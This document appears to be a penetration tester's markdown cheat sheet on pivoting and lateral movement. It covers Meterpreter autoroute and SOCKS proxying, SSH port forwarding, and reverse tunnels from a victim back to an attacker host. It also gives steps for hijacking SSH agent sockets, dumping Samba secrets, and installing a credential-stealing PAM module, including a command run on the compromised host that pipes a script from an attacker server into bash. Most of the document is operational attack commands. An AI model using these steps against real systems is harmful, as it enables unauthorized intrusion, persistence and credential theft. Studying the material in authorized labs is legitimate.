 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
#### Plink
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`


> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding


